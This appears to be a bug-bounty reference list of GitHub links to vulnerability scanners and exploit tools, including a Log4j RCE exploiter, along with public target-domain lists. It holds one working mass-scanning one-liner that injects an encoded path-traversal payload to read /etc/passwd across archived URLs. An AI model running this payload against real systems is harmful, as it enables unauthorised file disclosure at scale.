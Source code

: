  This file contains the list of tools or scripts which can be directly run on the subdomains list to find the vulnerabilities

> Automatic Vulnerability Detection and Exploit
```
Automation
https://github.com/zan8in/afrog
https://github.com/adrianscheff/pegaxss
https://github.com/zhzyker/vulmap
https://github.com/Dheerajmadhukar/karma_v2
https://github.com/yogeshojha/rengine
https://github.com/Chudry/Xerror
https://github.com/R0X4R/Garud
https://github.com/chaitin/xray
```
> Find Favicon hash for alltarget from a file list
```
https://github.com/devanshbatham/FavFreak
```

> 1. Apache Vulnerability Scanner
```
https://github.com/imhunterand/ApachSAL
https://github.com/p0dalirius/ApacheTomcatScanner
```

> 2. Local File Include Check:
```
> https://github.com/hansmach1ne/lfimap
LFI at scale 🔥🔥🔥🔥
cat rootsDomains.txt | waybackurls | qsreplace ".%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./etc/passwd" | httpx -silent -nc -mr "root:x:" -t 250 
```

>Log4j Vulnerability Test
```
https://github.com/cyberqueen-meg/log4j-bypass
https://github.com/PushpenderIndia/Log4jScanner
https://github.com/thecyberneh/Log4j-RCE-Exploiter
https://github.com/palantir/log4j-sniffer
https://github.com/trickest/log4j
```

> Sprint4shell scanner
```
https://github.com/fullhunt/spring4shell-scan
```


> Image EXIF-Metadata find
```
https://github.com/aydinnyunus/exifLooter
```
> Regularly collection of domain list from bug bounty sites
```
https://github.com/arkadiyt/bounty-targets-data/blob/master/data/domains.txt
https://github.com/KingOfBugbounty/KingOfBugBountyTips/blob/master/DoD%20Domains.txt
```
